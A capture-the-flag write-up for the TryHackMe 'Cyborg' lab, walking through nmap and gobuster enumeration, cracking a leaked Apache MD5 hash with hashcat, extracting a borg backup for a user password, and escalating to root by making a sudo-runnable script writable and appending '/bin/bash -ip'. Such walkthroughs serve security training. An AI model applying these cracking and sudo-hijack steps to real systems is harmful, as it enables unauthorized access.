






# Cyborg Room [TryHackMe](https://tryhackme.com/room/cyborgt8)

---


## Index
- [Enumeration](#enumeration)
- [Sensitive Info](#finding-sensitive-information)
- [PrivEsc](#priviledge-escalation)


---

```bash
export IP=10.10.166.13
```

---

### Enumeration

Doing some basic nmap enumeration
```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 ssh
80 http
```

Looks like there isn't much to explore port-wise. Time to move onto gobuster!

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html,.jpg,.png -o gobuster/dir_med.txt
```

Directories
```
/admin/
/etc/
```

Checking out `/etc` we discover something named squid and a username and hash for it.

---

### Finding sensitive information

Using hashcat to crack the hash

```bash
$ hashcat -t 64 -m 1600 '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' ~/wordlists/passwords/rockyou.txt
```
Reveals the password to be `squidward`. This, however, does not enable us to login to ssh but the squid proxy

Going to the admin page also reveals more information. There is a note from Alex who basically indicates that he has no idea what he is doing with squid.
There is also a `archive` tab that when downloading it, reveals it to be a bord backup that we can unextract.

```bash
$ borg list final_archive
```

Which requires a passphrase, the one we had gotten earlier! This reveals that the backup is named `music_archive` and we can now extract it

```bash
$ borg extract final_archive/::music_archive
```

We now have a new folder named `home` with a user, `alex`'s home directory. Within his home directory he has two files...





These notes reveal his bad memory at remembering passwords, and his password `S3cretP@s3`.

---

### Priviledge Escalation

Logging onto the machine, we can immediately grab the user flag.

And checking his sudo permissions...



Should be a walk in the cake until you realise you can't edit that file :/



But since we are the owner of the file, we can simply `chmod` it to `7XX`!



Add in a

```bash
/bin/bash -ip
```
to the file and run as via `sudo` and viola!



We are _**complete!**_

---


